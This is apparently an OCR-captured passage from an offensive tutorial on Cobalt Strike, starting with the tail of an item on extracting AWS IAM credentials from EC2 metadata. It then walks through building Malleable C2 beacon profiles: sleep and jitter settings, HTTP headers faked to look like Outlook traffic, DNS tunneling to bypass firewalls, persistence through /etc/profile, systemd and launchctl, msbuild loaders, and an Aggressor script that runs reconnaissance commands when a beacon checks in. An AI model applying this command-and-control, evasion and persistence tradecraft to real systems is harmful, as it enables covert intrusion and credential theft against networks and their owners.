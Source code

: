 Usage: Extracts AWS IAM credentials from EC2 metadata service.

Modify: Can be expanded for Lambdas or containerized workloads.



---

2. Building Your Own Malleable C2 Profiles

If you want to create a unique beacon, follow these steps:

Step 1: Choose a Communication Method

HTTPS (Looks like normal web traffic)

DNS Tunneling (Bypasses firewalls)

SMB Named Pipes (Lateral movement inside networks)


Step 2: Customize the Beacon

Edit settings like:
```C
set sleeptime "60000";  // 60-second delay
set jitter "30";        // 30% variation in sleep time
set maxdns "200";       // Max DNS beacon size
```
Step 3: Modify HTTP Headers & Responses

This makes the traffic blend into normal web browsing:
```C
http-get {
    set uri "/checkin";
    client {
        header "Referer" "https://outlook.office365.com";
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0)";
    }
}
```
Step 4: Deploy to Different Environments

Windows: Use PowerShell loaders & msbuild.exe execution.

Linux: Inject into /etc/profile or systemd services.

macOS: Use launchctl for persistence.



---

3. Automating Payload Generation

You can automate Cobalt Strike payload creation using Aggressor Scripts:
```javascript
on beacon_initial {
    btask(`Running post-exploitation commands...`);
    beacon_command(`shell whoami`);
    beacon_command(`shell ipconfig`);
}
```
This auto-executes commands when a beacon starts.
